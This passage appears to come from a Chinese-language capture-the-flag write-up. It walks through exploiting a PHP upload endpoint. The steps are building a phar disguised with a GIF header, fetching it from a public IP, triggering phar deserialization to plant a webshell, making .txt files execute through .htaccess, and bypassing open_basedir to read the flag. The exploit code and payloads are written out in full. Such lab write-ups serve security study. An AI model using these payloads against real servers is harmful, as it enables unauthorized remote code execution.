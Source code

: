 ```php
    echo "action=upload&filename=phar.txt&url=data:image/png;base64,".$raw;
}

$d = new dir();
echo urlencode(serialize($d));
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar->setStub("GIF89A"."__HALT_COMPILER();"); //设置stub，增加gif文件头用以欺骗检测
$phar->setMetadata($d); //将自定义meta-data存入manifest
$phar->addFromString("test.jpg", "test"); //添加要压缩的文件
$phar->stopBuffering();

TransferPhar('./shell.phar');
system("gzip ./shell.phar");
?>
```

放在公网上做成 gz 文件写入 (base64解析时被禁用了如果改一下的话或许可以直接绕过)

```
action=upload&filename=phar.txt&url=http://39.97.114.43/public/shell
```

然后触发 phar 反序列化

```
action=upload&filename=&url=phar://upload/d99081fe929b750e0557f85e6499103f/phar.txt
```

触发如图所示

![20210412211341178](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210412211341178.png)

成功后就会把🐎写入 ricky.txt

![20210412211455939](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210412211455939.png)

换用这个 .htaccess 内容解析 txt 文件

```
AddHandler php7-script .txt
```

base64 写入或者公网写入

```
action=upload&filename=.htaccess&url=data:image/png;base64,QWRkSGFuZGxlciBwaHA3LXNjcmlwdCAudHh0
```

再访问就发现已经可以 getshell 了

![20210412212005842](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210412212005842.png)

有 open_basedir 的限制, 可以用 ini_set 绕过

```
cmd=ini_set('open_basedir','..');mkdir('hack');chdir('hack');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));highlight_file('F1aG_1s_H4r4');
```
